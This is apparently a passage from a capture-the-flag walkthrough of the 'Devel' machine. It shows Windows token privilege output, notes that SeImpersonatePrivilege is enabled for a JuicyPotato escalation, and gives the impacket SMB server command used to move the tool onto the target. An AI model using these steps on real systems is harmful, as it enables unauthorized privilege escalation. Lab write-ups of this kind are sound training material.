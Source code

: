 ```
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

Okay that is a lot of text but look here at the most important part:

> SeImpersonatePrivilege        Impersonate a client after authentication Enabled
{: .prompt-danger }

SeImpersonate is enabled. With this we can use a notorious but delicious vegetable to raise our privileges. Let's deploy the JuicyPotato. But before we even do that, how do we upload files to the machine? Let's pretend that I knew that FTP was running but wanted to demonstrate a different but more complicated way. Unlike linux machines where we can just setup http servers with python3 and using wget, we could instead use smb! Here's how we set it up.

We can use impacket to setup an smb server. The arguments are as follows:

> `impacket-smbserver [Share Name] [Directory] -smb2support`
{: .prompt-info }

So in our case for Devel, it should look like this for our current directory as the share:

`impacket-smbserver lmao .  -smb2support`

The "-smb2support" is necessary to for our machine to transer files so just use it.

Now that the share is setup, we can grab the potato that we downloaded to our current directory.

`cd \windows\temp`
